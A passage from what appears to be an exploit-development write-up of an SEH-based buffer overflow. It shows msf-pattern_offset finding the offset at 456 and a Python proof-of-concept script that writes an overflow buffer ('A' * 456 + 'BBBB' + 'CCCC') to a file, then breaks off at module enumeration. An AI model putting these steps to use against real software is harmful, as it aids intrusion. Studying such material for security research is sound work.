 ##### Response of the SEH Chain II.

![](/assets/img/Findings11/6.png)

##### Obtaining the offset with the use of msf-pattern_offset.

```term
root@whitecr0wz:~# msf-pattern_offset -q 41327041 
[*] Exact match at offset 456
root@whitecr0wz:~# 
```

###### Current PoC:

```term
import struct

buffer = "A" * 456 + "BBBB" + "CCCC"

f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

##### Response of the SEH Chain III.

![](/assets/img/Findings11/7.png)

##### Enumerating the modules.
